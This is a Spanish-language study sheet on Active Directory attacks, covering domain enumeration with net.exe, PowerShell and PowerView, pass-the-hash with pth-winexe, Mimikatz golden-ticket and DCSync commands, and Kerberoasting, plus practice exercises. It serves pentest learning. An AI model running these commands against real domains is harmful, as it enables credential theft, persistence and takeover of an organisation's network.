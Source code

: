 # Active Directory Attacks

Propietario: Adrian Gisbert Cabello

### 1. Introducción a Active Directory

Active Directory (AD) es un servicio que permite a los administradores de sistemas gestionar sistemas operativos, aplicaciones, usuarios y acceso a datos a gran escala. El controlador de dominio (DC) es el núcleo de AD, almacenando toda la información sobre cómo está configurada la instancia específica de AD y aplicando una variedad de reglas que gobiernan las interacciones dentro del dominio de Windows.

### 2. Enumeración de Active Directory

### 2.1. Enfoque Tradicional

Utilización de herramientas como `net.exe` para enumerar usuarios, grupos y otros recursos del dominio:

- Enumerar usuarios del dominio:
    
    ```bash
    net user /domain
    ```
    
- Enumerar grupos del dominio:
    
    ```bash
    net group /domain
    ```
    

### 2.2. Enfoque Moderno

Utilización de PowerShell para una enumeración más flexible y detallada:

- Obtener información de usuarios:
    
    ```powershell
    Get-ADUser -Filter *
    ```
    
- Enumeración LDAP con PowerShell:
    
    ```powershell
    $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
    $PDC = ($domainObj.PdcRoleOwner).Name
    $SearchString = "LDAP://"
    $SearchString += $PDC + "/"
    $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
    $SearchString += $DistinguishedName
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
    $objDomain = New-Object System.DirectoryServices.DirectoryEntry
    $Searcher.SearchRoot = $objDomain
    $Searcher.filter="samAccountType=805306368"
    $Searcher.FindAll()
    ```
    
- Enumeración de usuarios conectados actualmente:
    
    ```powershell
    Import-Module .\PowerView.ps1
    Get-NetLoggedon -ComputerName [nombre_computadora]
    Get-NetSession -ComputerName [nombre_computadora]
    ```
    
- Enumeración a través de Service Principal Names (SPN):
    
    ```powershell
    $Searcher.filter = "serviceprincipalname=*"
    $Searcher.FindAll()
    ```
    

### 3. Técnicas de Autenticación y Explotación

### 3.1. NTLM Authentication

El protocolo NTLM se utiliza cuando un cliente se autentica con un servidor mediante una dirección IP en lugar de un nombre de host. El proceso incluye la generación y comparación de un hash NTLM.

### 3.2. Kerberos Authentication

Kerberos es el principal protocolo de autenticación utilizado en AD. Involucra la emisión de tickets por un KDC (Key Distribution Center), que los clientes utilizan para autenticar servicios.

### 3.3. Pass the Hash (PtH)

Permite a un atacante autenticarse en un sistema remoto usando un hash NTLM en lugar de la contraseña en texto claro:

```bash
pth-winexe -U user%aad3b435b51404eeaad3b435b51404ee:hash //1.1.1.1 cmd
```

### 3.4. Pass the Ticket (PtT)

Esta técnica permite utilizar un ticket Kerberos (TGT) robado para autenticarse en servicios dentro del dominio.

### 3.5. Golden Tickets

Consiste en crear un TGT falso utilizando el hash del krbtgt, lo que permite obtener acceso completo al dominio:

```powershell
mimikatz # lsadump::lsa /patch
mimikatz # kerberos::golden /user:Administrator /domain:corp.com /sid:S-1-5-21-... /krbtgt:75b60230a2394a812000dbfad8415965 /id:500
mimikatz # misc::cmd
```

### 4. Movimientos Laterales

### 4.1. Enumeración de Servicios y Usuarios Conectados

```powershell
Get-NetSession -ComputerName dc01
```

### 4.2. Dumping Hashes con DCSync

Utilizar Mimikatz para replicar la base de datos de contraseñas desde un DC:

```powershell
mimikatz # lsadump::dcsync /user:Administrator
```

### 5. Persistencia en Active Directory

### 5.1. Golden Tickets para Persistencia

Crear tickets TGT válidos indefinidamente hasta que se cambie la contraseña de krbtgt:

```powershell
mimikatz # kerberos::golden /user:Administrator /domain:corp.com /sid:S-1-5-21-... /krbtgt:75b60230a2394a812000dbfad8415965 /id:500
mimikatz # misc::cmd
```

### 5.2. Sincronización del Controlador de Dominio

Abusar de la funcionalidad de replicación de AD para extraer hashes de contraseñas sin dejar un rastro directo:

```powershell
mimikatz # lsadump::dcsync /user:Administrator
```

### 6. Ejercicios Prácticos

1. **Enumeración con PowerView**:
    - Ejecutar `Get-NetLoggedOn` y `Get-NetSession` para descubrir usuarios conectados y sesiones activas.
2. **Explotar SPN para Kerberoasting**:
    - Usar `Invoke-Kerberoast` para solicitar y crackear tickets de servicio Kerberos:
        
        ```powershell
        Invoke-Kerberoast -OutputFormat Hashcat
        ```
        
3. **Uso de Mimikatz para Dumping de Hashes**:
    - Ejecutar Mimikatz para obtener hashes NTLM y utilizarlos con Pass the Hash.